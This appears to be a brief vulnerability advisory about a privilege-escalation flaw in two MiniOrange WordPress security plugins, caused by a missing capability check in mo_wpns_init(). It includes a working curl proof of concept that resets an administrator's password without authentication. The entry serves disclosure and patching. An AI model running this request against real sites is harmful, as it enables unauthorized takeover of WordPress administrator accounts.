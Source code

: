 Description
The Malware Scanner plugin and the Web Application Firewall plugin for WordPress (both by MiniOrange) are vulnerable to privilege escalation due to a missing capability check on the mo_wpns_init() function in all versions up to, and including, 4.7.2 (for Malware Scanner) and 2.1.1 (for Web Application Firewall).<br>
This makes it possible for unauthenticated attackers to escalate their privileges to that of an administrator.

curl --url 'http://your-site.tld/wp-login.php' --data 'option=mo_wpns_change_password&username=simpleadmin&new_password=P4ssw0rd!&confirm_password=P4ssw0rd!'

